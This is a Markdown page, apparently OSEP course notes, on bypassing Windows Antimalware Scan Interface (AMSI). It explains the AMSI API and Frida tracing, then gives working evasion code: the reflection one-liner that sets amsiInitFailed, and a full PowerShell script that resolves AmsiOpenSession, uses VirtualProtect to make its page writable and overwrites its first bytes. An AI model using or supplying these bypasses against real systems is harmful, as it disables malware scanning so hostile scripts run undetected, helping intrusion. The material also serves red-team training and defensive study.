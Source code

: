 # AMSI Bypass

Antimalware Scan Interface (AMSI) is able to detect the malicious file even if the are never written to disk. Explore the impact of WinDefender's implementation of AMSI on PowerShell and Jscript

This repo [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) is VERY GOOD, you can research more deeply on your own. 

## Antimalware Scan Interface (AMSI)
Tool Debug: WinDbg, x64dbg, Immunity Debugger, ...        
Ref: https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/


To protect against malicious PowerShell scripts, Microsoft introduced the **Antimalware Scan Interface (AMSI)** to allow run-time inspection of all PowerShell commands or scripts. AMSI identify and block malicious scripts even if they are heavily obfuscated

The AMSI feature is integrated into these components of Windows OS
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (wscript.exe and cscript.exe)
- JavaScript and VBScript
- Office VBA macros

References & Credit:
- https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps
- https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
- https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions

The Antimalware Scan Interface (AMSI) is a standardized interface which Windows applications can use to interact with the *Antimalware software* in use. The following diagram illustrates from a high level how it works - the important thing to take away from this is that applications can make use of the functions [AmsiScanBuffer](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) and [AmsiScanString](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanstring) to scan input for malicious content.

![](https://learn.microsoft.com/en-us/windows/win32/amsi/images/amsi7archi.jpg)

*Win32 AMSI API function*

| Function                                                                                                          | Description                                                                                                                                                            |
| ----------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [**AmsiCloseSession**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiclosesession)       | Close a session that was opened by [AmsiOpenSession](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiopensession).                              |
| [**AmsiInitialize**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiinitialize)           | Initialize the AMSI API.                                                                                                                                               |
| [**AmsiNotifyOperation**](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsinotifyoperation)   | Sends to the antimalware provider a notification of an arbitrary operation.                                                                                            |
| [**AmsiOpenSession**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiopensession)         | Opens a session within which multiple scan requests can be correlated.                                                                                                 |
| [**AmsiResultIsMalware**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiresultismalware) | Determines if the result of a scan indicates that the content should be blocked.                                                                                       |
| [**AmsiScanBuffer**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiscanbuffer)           | Scans a buffer-full of content for malware.                                                                                                                            |
| [**AmsiScanString**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiscanstring)           | Scans a string for malware.                                                                                                                                            |
| [**AmsiUninitialize**](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiuninitialize)       | Remove the instance of the AMSI API that was originally opened by [AmsiInitialize](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiinitialize). |

The AMSI exported APIs include AmsiInitialize, AmsiOpenSession, AmsiScanString, AmsiScanBuffer, and AmsiCloseSession ...

## Trace AMSI Win32 APIs
Use [Frida](https://frida.re/) to trace the calls to the exported AMSI calls. Frida can hook Win32 APIs through a Python backend while using JavaScript to display and interpret arguments and return values.

For e.g: the Powershell process ID is 1234. Use the follow Frida command 

```powershell
frida-trace -p 1234 -x amsi.dll -i Amsi*
```

If input is: `AmsiUtils` then *AmsiScanBuffer()* returns the value 32768 equal malicious        
If input is: `AmsiUtils` then *AmsiScanBuffer()* returns the value 1 equal non-malicious        

## Bypassing AMS with String Manipulation
This technique is called **String Manipulation**

1. String concatenation: (`"amsi" and "Utils"`)
2. Utilizing Base64-encoding: 

```powershell
PS C:\Users\Admin> [System.Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('YW1zaVV0aWxz'))
amsiUtils
```
## Bypassing AMSI with Reflection
Credit:  [Matt Graeber](https://twitter.com/mattifestation) from 2016

PowerShell stores information about AMSI in managed code inside the `System.Management.Automation.AmsiUtils` class - can enumerate and interact with through reflection. From [Module 3](https://github.com/col-1002/OSEP-Course/blob/main/Modules/Module%203.%20Client%20Side%20Code%20Execution%20With%20Office.md) the key element of reflection is the [GetType](https://learn.microsoft.com/en-us/dotnet/api/system.object.gettype?view=net-8.0) method which wil be invoke through [System.Management.Automation.PSReference](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.psreference?view=powershellsdk-7.4.0) class, also called `[Ref]`. 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

We can't use this basic method because WinDefender regularly updates the signatures. 

### Static analysis (dnSpy)

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

OK, under the hood. Load referenced assembly file `System.Management.Automation.dll` into [dnSpy](https://github.com/dnSpyEx/dnSpy).

```
C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\
```

![](https://raw.githubusercontent.com/col-1002/OSEP-Course/main/Attachment/System_Management_Automation_dll_v1.png)

`ScanContent` method -> if the value of the `amsiInitFailed` variable is set to `TRUE` return `AMSI_RESULT_NOT_DETECTED`

![](https://raw.githubusercontent.com/col-1002/OSEP-Course/main/Attachment/System_Management_Automation_dll_v2.png)

```powershell
	if (AmsiUtils.amsiInitFailed)
	{
		return AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_NOT_DETECTED;
	}
```

OK, the payload bypass set `amsiInitFailed` to `true` so that the method `ScanContent` will always return `AMSI_RESULT_NOT_DETECTED`
## Bypassing AMSI in PowerShell -> Patch Win32 AMSI API
### Patch `AmsiOpenSession`
The attack process takes place in 3 steps:
1. obtain the memory address of `AmsiOpenSession`
2. modify the memory permissions where `AmsiOpenSession` is located
3. modify the three bytes at that location

```powershell
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).
    Invoke($null, @($moduleName)), $functionName))
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession

function getDelegateType {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
    [System.MulticastDelegate])
	$type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
    [System.Reflection.CallingConventions]::Standard, $func).
    SetImplementationFlags('Runtime, Managed')
	$type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
    SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$oldProtectionBuffer = 0 
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool]))) 
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer) # change 0x40 = PAGE_EXECUTE_READWRITE

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3) # copy the assembly
```












